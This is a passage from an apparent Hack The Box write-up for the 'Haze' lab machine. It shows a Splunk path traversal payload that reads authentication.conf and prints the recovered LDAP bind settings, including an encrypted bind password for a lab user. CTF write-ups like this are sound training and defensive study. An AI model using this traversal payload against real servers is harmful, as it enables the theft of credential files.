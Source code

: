 ![](images/2025-03-29_20-57_8000_serverconf.png)

As next file we checked the `authentication.conf` which contained the `username` of `Paul Taylor` and a `hash` for `Splunk LDAP Authentication`.

```shell
/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/authentication.conf
```

- [http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/authentication.conf](http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:..//etc/system/local/authentication.conf)

```c
[splunk_auth] minPasswordLength = 8 minPasswordUppercase = 0 minPasswordLowercase = 0 minPasswordSpecial = 0 minPasswordDigit = 0 [Haze LDAP Auth] SSLEnabled = 0 anonymous_referrals = 1 bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY= charset = utf8 emailAttribute = mail enableRangeRetrieval = 0 groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb groupMappingAttribute = dn groupMemberAttribute = member groupNameAttribute = cn host = dc01.haze.htb nestedGroups = 0 network_timeout = 20 pagelimit = -1 port = 389 realNameAttribute = cn sizelimit = 1000 timelimit = 15 userBaseDN = CN=Users,DC=haze,DC=htb userNameAttribute = samaccountname [authentication] authSettings = Haze LDAP Auth authType = LDAP
```

![](images/2025-03-29_21-13_8000_authenticationconf.png)